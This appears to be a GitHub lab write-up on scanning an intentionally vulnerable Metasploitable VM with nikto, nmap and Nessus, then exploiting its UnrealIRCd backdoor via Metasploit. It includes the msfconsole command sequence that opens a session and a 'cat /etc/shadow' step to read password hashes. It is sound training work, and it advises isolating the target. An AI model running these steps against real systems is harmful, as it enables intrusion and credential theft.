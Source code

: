 
# Metasploitable 

![image](https://github.com/user-attachments/assets/077df3c9-a9c5-4e5b-8d59-ae6ad2b86007)

It’s intentionally vulnerable, so exposing it to the internet is a major security risk (it could be compromised within minutes and used for attacks).

VMware:
- Go to VM Settings > Network Adapter
- Set to Host-only or Custom (VMnet1)
- This keeps it isolated to your machine.

  ![image](https://github.com/user-attachments/assets/352259c7-8f6a-43b9-a42b-1c18af50c23b)

## Vulnerability Scanning 
```
nikto -h <machine's ip>
```
![image](https://github.com/user-attachments/assets/8a3fbce8-427f-4e60-ad68-05273d298c2e)

As indicated by the results 
- Apache/2.2.8 appears to be outaded
- HTTP TRACE method is active which suggests the host is vulnerable to XST

```
nmap -A -p- [Metasploitable_IP] -oN full_scan.txt
```
-Running a full nmao scan - A(Aggressive) -p(scanning all ports) -oN( output to file)

### Searchsploit ( included with kali linux)
- helps you find known exploits from the Exploit-DB database:

### Install Nessus
https://www.tenable.com/downloads/nessus?loginAttempted=true
```
sudo dpkg -i Nessus-10.8.3-ubuntu1604_amd64.deb
```
```
sudo systemctl start nessusd.service
```
```
https://localhost:8834
aka
https://kali:8834
```
![image](https://github.com/user-attachments/assets/3aa93fe0-76a3-4107-847c-3540b55c43d1)



- All of the detected critical vulnerabilities 
![image](https://github.com/user-attachments/assets/a8176b21-62a5-4508-90d4-d9e57d51f6f6)

### Exploit
I am going to exploit the UnrealRCd Backdoor Detection
- in the shell type msfconsole to start the metasploit service 

```
search unreal
```
- This was to find the payload available in metasploit for this vulnerability

Then I used 
```
search unreal
use 5
show options
set RHOSTS <ip_address>
show payloads
set payload 5
set LHOST <ip_address>
exploit 
```


![image](https://github.com/user-attachments/assets/b70d417c-46ec-4e92-a5d1-1a3e344761b3)


I recieved an error regarding saying the exploit was completed but no session was created 
ran on KAli
```
ip a
```
Then ping both ip address from the target to see which replies and rerun explot command
![image](https://github.com/user-attachments/assets/c3504204-2b84-4ee5-ae25-d4eadd02d28c)

So the following image show that I have accessed the target machine through the unreal backdoor vulnerability. I entered commanfd ``` ip a ``` and the response was the ip address of the target machine.
![image](https://github.com/user-attachments/assets/d6a103d8-afc3-4f6f-993d-6f64d9b56a3c)

```
cat /etc/shadow
```
- to get the usernames and the encrypted passwords 
![image](https://github.com/user-attachments/assets/e3b5f7a7-bef9-4e68-bd24-89f772e26aaa)
